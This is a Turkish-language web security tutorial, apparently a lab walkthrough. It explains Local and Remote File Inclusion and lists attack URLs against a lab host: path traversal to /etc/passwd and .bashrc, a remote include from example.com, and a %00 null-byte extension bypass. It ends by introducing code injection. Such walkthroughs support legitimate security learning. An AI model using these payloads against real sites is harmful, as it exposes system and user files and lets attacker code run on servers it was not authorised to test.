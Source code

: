 ### FILE INCLUDE

File Inclusion, yani dosya dahil etme saldırısı saldırganın hedef web sitesine bir dosya dahil etmesine ya da hedef web sitesinin kendinde olan ama sunmadığı bir dosyayı görüntüleyebilmesine denir. File Inclusion açıklığını kullanan iki tür saldırı vardır: Bunlardan birincisi Local File Inclusion diye adlandırılmaktadır, ikincisi ise Remote File Inclusion diye adlandırılmaktadır. Local File Inclusion saldırısı hedef sitenin barındığı sunucudaki ziyaretçilere sunulmamış dosyanın hedef site üzerinden görüntülenebilmesine denir. Remote File Inclusion saldırısı ise hedef siteye saldırganın kendi dosyasını (mesela shell dosyasını) görüntületmesine denir. 

#### Example 1

> http://192.168.56.101/fileincl/example1.php?page=/etc/passwd
>
> http://192.168.56.101/fileincl/example1.php?page=http://example.com/index.php
>
> http://192.168.56.101/fileincl/example1.php?page=../../../../../../etc/passwd
>
> http://192.168.56.101/fileincl/example1.php?page=../../../../../../etc/shells
>
> http://192.168.56.101/fileincl/example1.php?page=../../../../../../etc/services
>
> http://192.168.56.101/fileincl/example1.php?page=../../../../../../etc/hosts
>
> http://192.168.56.101/fileincl/example1.php?page=../../../../../../home/user/.bashrc

Burada sunucuda önceden bulunan bir dosyaya eriştiğimiz için Local File Inclusion gerçekleştirmiş olduk.

#### Example 2

Burada programcı dosya uzantıları göstermemiş bunu atlatmak için %00 kullanabiliriz.

> http://192.168.56.101/fileincl/example2.php?page=/etc/passwd%00
>
> http://192.168.56.101/fileincl/example2.php?page=http://example.com/index%00
>
> http://192.168.56.101/fileincl/example2.php?page=../../../../../../etc/passwd%00
>
> http://192.168.56.101/fileincl/example2.php?page=../../../../../../etc/shells%00
>
> http://192.168.56.101/fileincl/example2.php?page=../../../../../../etc/services%00
>
> http://192.168.56.101/fileincl/example2.php?page=../../../../../../etc/hosts%00
>
> http://192.168.56.101/fileincl/example2.php?page=../../../../../../home/user/.bashrc%00

### CODE INJECTION

Kod enjrksiyonu zafiyeti SQL Enjeksiyonuna çok benzer temelde kullanıcının girdiği verinin işlenmemesinden kaynaklanır burada kullanıcı sisteme kod enjekte edebilir bu dilden dile değişiklik gösterir burada php dili kullanılmış bizde örnekleri php dili ile çözeceğiz.
